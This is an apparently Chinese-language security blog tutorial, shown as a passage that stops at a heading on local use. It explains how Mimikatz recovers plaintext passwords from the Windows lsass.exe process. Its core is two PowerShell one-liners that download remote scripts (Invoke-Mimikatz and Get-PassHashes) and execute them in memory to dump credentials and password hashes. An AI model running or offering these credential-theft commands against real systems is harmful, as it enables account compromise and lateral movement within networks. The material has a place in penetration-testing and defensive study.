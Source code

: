 ```yaml
---
categories:
    - 内网
tags:
    - Mimikatz
    - 内网
---
```

##  实验环境

```
win2012 
mimikatz 2.1.1
```
## 简介

Mimikatz 是一款功能强大的轻量级调试神器，通过它你可以提升进程权限注入进程读取进程内存，当然他最大的亮点就是他可以直接从 lsass.exe 进程中获取当前登录系统用户名的密码， lsass是微软Windows系统的安全机制它主要用于本地安全和登陆策略，通常我们在登陆系统时输入密码之后，密码便会储存在 lsass内存中，经过其 wdigest 和 tspkg 两个模块调用后，对其使用可逆的算法进行加密并存储在内存之中， 而 mimikatz 正是通过对lsass逆算获取到明文密码！也就是说只要你不重启电脑，就可以通过他获取到登陆密码，只限当前登陆系统！

注：但是在安装了KB2871997补丁或者系统版本大于windows server 2012时，系统的内存中就不再保存明文的密码，这样利用mimikatz就不能从内存中读出明文密码了。mimikatz的使用需要administrator用户执行，administrators中的其他用户都不行。

## 使用powershell

Invoke-Mimikatz.ps1下载地址
```
https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1
```

使用powershell 下载并执行

```
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/01.png)
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/02.png)

读取密码hash值

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/03.png)

## 本地mimikatz使用
